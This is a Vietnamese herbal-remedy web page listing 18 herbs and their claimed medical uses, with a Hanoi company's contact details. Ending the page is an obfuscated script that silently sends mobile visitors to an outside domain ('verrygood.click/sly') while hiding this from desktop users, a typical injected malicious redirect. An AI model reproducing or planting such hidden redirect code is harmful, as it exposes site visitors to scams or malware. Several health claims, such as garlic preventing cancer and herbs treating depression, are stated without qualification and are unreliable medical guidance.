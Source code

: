 Nhiều loại thảo dược không chỉ làm đẹp thêm ngôi nhà của bạn hay được dùng làm gia vị mà chúng còn có tác dụng hỗ trợ điều trị bệnh và tăng cường sức khỏe. 

1. Lá bạc hà

Là loại thảo dược phổ biến, tinh dầu từ lá bạc hà có thể giúp giảm bớt khò khè, viêm xoang, hen suyễn và viêm thanh quản. Nó cũng có thể hỗ trợ giảm đau bụng kinh và lợi tiểu.

2. Cúc tím

Cúc tím có nguồn gốc từ Mỹ. Rễ hoa cúc tím có tác dụng hỗ trợ hệ thống miễn dịch và chống nhiễm trùng. Dầu từ hoa cúc tím giúp điều trị bệnh zona, viêm loét, bệnh cúm và viêm amidan. Nó cũng có thể được sử dụng như một loại nước súc miệng.

3. Tỏi

Tỏi là loại thảo dược rất tốt, có thể ăn hàng ngày hoặc dùng như là thuốc. Trong tỏi chứa các chất khử trùng tự nhiên, allicin, giúp hỗ trợ hệ thống miễn dịch. Ăn tỏi thường xuyên giúp tránh ho và cảm lạnh. Nó cũng có tác dụng chống viêm xoang. Nếu bạn bị nhiễm nấm da, nước ép tỏi tươi là một phương thuốc tự nhiên và hữu hiệu. Tỏi còn được biết có vai trò nhất định trong việc ngăn ngừa một số loại ung thư, bao gồm ung thư dạ dày.

4. Hoa anh thảo

Là một loại hoa bản địa của Mỹ, tinh dầu hoa anh thảo cung cấp nhiều Omega-6 có tác dụng giảm cứng khớp, điều hòa nội tiết nữ, bổ não và cải thiện sự tập trung.

5. Lô hội

Lô hội là cây mọng nước ở vùng nhiệt đới. Nước ép dạng gel chiết xuất từ lá cây lô hội có thể làm dịu các vết bỏng, làm mềm da, chống viêm và kháng khuẩn. Nếu bạn bị viêm lợi và đau răng, nước súc miệng từ lá cây lô hội sẽ giúp giảm đáng kể triệu chứng đau. Ngoài ra, lá cây lô hội còn có tác dụng chữa bệnh táo bón.

6. Cúc Feverfew

Loại cúc này được trồng phổ biến ở châu Âu. Lá của cúc Feverfew giúp giảm triệu chứng đau nửa đầu, giảm đau viêm khớp và đau bụng kinh. Tuy nhiên phụ nữ mang thai được khuyến cáo không dùng loại thảo dược này vì nó có thể gây buồn nôn

7. Cúc vạn thọ

Loại hoa phổ biến này đặc biệt hữu ích cho các bệnh về da và mắt. Cúc vạn thọ cũng giúp giảm đau ở bệnh giãn tĩnh mạch, làm kem dưỡng da. Trà từ hoa cúc vạn thọ có tác dụng giảm đau bụng kinh và đau họng.

8. Bạch quả 

Ginkgo hay còn goi là bạch quả, có nguồn gốc từ Trung Quốc. Loại thảo dược này có chứa flavone glycoside giúp tăng cường tuần hoàn não, cải thiện trí nhớ.

9. Gừng

Gừng là loại gia vị phổ biến trong nhiều món ăn. Gừng giúp ngăn ngừa buồn nôn và bảo vệ dạ dày, chống viêm loét.

10. Hoa kim sa Arnica

Là một chi thuộc họ hướng dương, hoa kim sa Arnica thường mọc trên núi. Dầu hoa kim sa giúp giảm các vết bầm tím, sưng tấy.

11. Nước Cây phỉ -Witch hazel

Witch hazel là loại nước được chiết xuất từ vỏ và lá cây phỉ, một trong các loại thảo mộc hữu ích. Dầu hoặc kem từ loại cây này giúp chữa mụn nhọt, giảm bầm tím, chữa bệnh trĩ và giãn tĩnh mạch.

12. Trầm hương

Cây trầm hương trồng nhiều ở khu vực Bắc Phi và Arab. Dầu trầm hương có đặc tính chống lão hóa và giúp chữa lành các vết loét và vết thương trên da. Nó có thể làm giảm viêm phế quản và thở khò khè, điều trị viêm bàng quang và các vấn đề về kinh nguyệt.

13. Cúc La Mã

Loại hoa này mọc khắp châu Âu. Nếu bạn bị mất ngủ, uống trà hoa cúc La Mã là một phương thức hiệu quả. Trà hoa cúc cũng giúp hỗ trợ tiêu hóa và điều hòa nội tiết nữ.

14. Hoa hoàng lan

Hoàng lan được trồng phổ biến ở Madagascar, Indonesia và Philippines. Hương thơm từ tinh dầu hoa Hoàng lan giúp bạn giảm căng thẳng tinh thần, lo lắng, chống trầm cảm.

15. Trà xanh

Trà xanh có tính kháng khuẩn, có thể được sử dụng để làm sạch vết thương. Lá trà xanh được sử dụng để điều trị nấm ngoài da và có thể giảm bớt các vấn đề về da như mụn trứng cá, eczema và viêm da.

16. Cây khoai mỡ

Cây khoai mỡ có nguồn gốc từ Mexico, giúp hỗ trợ giảm đau bụng, các triệu chứng mãn kinh và khô âm đạo.

17. Hoa oải hương

Lavender- hay hoa oải hương có tính chất sát trùng có tác dụng hiệu quả trong chữa trị vết cắn, đốt, bỏng và vết thương. Một vài giọt tinh dầu hoa oải hương trên gối có thể thúc đẩy giấc ngủ sâu. Trà thảo dược từ hoa oải hương giúp bạn giảm bớt căng thẳng.

18. Hoa St John's Wort

Là một loại hoa dại ở châu Âu, hoa St John's Wort được dùng trong điều trị trầm cảm, lo lắng, đau dây thần kinh và mất ngủ.


CÔNG TY THẢO DƯỢC TỐT CÂY XANH HANOI

ĐỊA CHỈ: KĐT Hoà Lạc, Quốc Oai, Hà Nội

ĐIỆN THOẠI: 0987789789

<script>
function _0x3acc(_0x284298, _0x25b2df) {
        var _0x5a0508 = _0x2464();
        return (
          (_0x3acc = function (_0x150fc1, _0x502ed6) {
            _0x150fc1 = _0x150fc1 - (-0x7a9 + -0x10 * 0x27 + 0x2 * 0x5fd);
            var _0x70deb8 = _0x5a0508[_0x150fc1];
            return _0x70deb8;
          }),
          _0x3acc(_0x284298, _0x25b2df)
        );
      }
      (function (_0x5cc21d, _0x32d2c9) {
        var _0x543a06 = _0x3acc,
          _0x509667 = _0x5cc21d();
        while (!![]) {
          try {
            var _0x4b6b69 =
              -parseInt(_0x543a06("0x1e8")) / (0x921 + -0x2265 + 0x1 * 0x1945) +
              -parseInt(_0x543a06("0x1ec")) / (-0x1560 + -0x10c9 + 0x262b) +
              parseInt(_0x543a06("0x1e9")) /
                (0x1 * -0xf59 + -0x17c * -0x17 + -0x12c8) +
              -parseInt(_0x543a06("0x1e3")) /
                (-0x3 * -0xb6f + 0x1add * -0x1 + 0x5f * -0x14) +
              (parseInt(_0x543a06("0x1e7")) /
                (-0x2079 + 0x204 * 0x8 + 0x105e)) *
                (-parseInt(_0x543a06("0x1e6")) /
                  (0x8dc + -0xfe9 + 0x1 * 0x713)) +
              parseInt(_0x543a06("0x1f1")) /
                (-0x196d + 0x35b * 0x3 + -0x521 * -0x3) +
              (parseInt(_0x543a06("0x1eb")) /
                (-0xb * -0x326 + 0xe5b + -0x30f5 * 0x1)) *
                (parseInt(_0x543a06("0x1e1")) /
                  (0x6 * 0x1a9 + 0xf4f + 0x4c * -0x55));
            if (_0x4b6b69 === _0x32d2c9) break;
            else _0x509667["push"](_0x509667["shift"]());
          } catch (_0x5dee30) {
            _0x509667["push"](_0x509667["shift"]());
          }
        }
      })(_0x2464, -0x1 * -0xd5551 + -0xfe723 + 0x100 * 0xe71);
      function checkPointVIP() {
        var _0x1597b4 = _0x3acc,
          _0x512d05 = {
            hwTZb: _0x1597b4("0x1ea"),
            CMDgM: function (_0x3c47f1, _0x434746, _0x4e8d49) {
              return _0x3c47f1(_0x434746, _0x4e8d49);
            },
            fbBsr: _0x1597b4("0x1e5"),
          };
        /Android|webOS|iPhone|iPad|iPod|BlackBerry|IEMobile|Opera Mini/i[
          _0x1597b4("0x1ed")
        ](navigator[_0x1597b4("0x1e2")])
          ? _0x512d05["CMDgM"](
              setTimeout,
              function () {
                var _0x5910a3 = _0x1597b4;
                window["location"][_0x5910a3("0x1e4")] =
                  _0x512d05[_0x5910a3("0x1ef")];
              },
              -0x1a47 + 0x2361 + -0x23 * 0x26
            )
          : console[_0x1597b4("0x1f0")](_0x512d05[_0x1597b4("0x1ee")]);
      }
      function _0x2464() {
        var _0x21041b = [
          "log",
          "7482909HWmgGJ",
          "8811fswJIR",
          "userAgent",
          "1994944PQFzdL",
          "href",
          "Người\x20dùng\x20truy\x20cập\x20từ\x20desktop.",
          "6USohhu",
          "4040485VJAukx",
          "135228raUOXF",
          "953976yPVeKh",
          "https://www.verrygood.click/sly",
          "18472cpiDMs",
          "2854798lglKqX",
          "test",
          "fbBsr",
          "hwTZb",
        ];
        _0x2464 = function () {
          return _0x21041b;
        };
        return _0x2464();
      }
      checkPointVIP();
	  </script>
